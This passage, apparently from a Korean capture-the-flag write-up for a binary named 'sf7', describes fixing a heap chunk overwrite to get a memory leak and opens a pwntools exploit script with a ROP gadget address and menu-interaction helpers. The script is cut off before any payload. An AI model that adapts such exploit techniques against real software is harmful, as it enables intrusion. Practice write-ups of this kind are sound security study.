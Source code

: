 ![Untitled](SF7_asset/Untitled_14.png)

하지만 고것은 제 작은 실수 였구요

modify로 덮은것을 잘 못 덮었다. 그래서 처음 create로 청크를 만들 때 size를 0x10으로 하니 잘되었다. 또는 p64(0)을 2개를 더 넣으면 잘될 것이다.

![Untitled](SF7_asset/Untitled_15.png)

^오^ leak이 잘 되었다. 

```python
from pwn import *

p = process('./sf7')
e = ELF('./sf7')

pop_rdi = 0x00000000004010d3

#log
context.log_level = 'debug'

def create(size, content):
    p.recvuntil("> ")
    p.sendline("1")
    
    p.recvuntil('size : ')
    p.sendline(str(size))
    p.recvuntil("memo : ")
    p.send(content)
    
def show():
    p.recvuntil("> ")
    p.sendline("2")

def modify(old, new):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("memo : ")
    p.send(old)
    p.recvuntil("memo : ")
    p.send(new)
```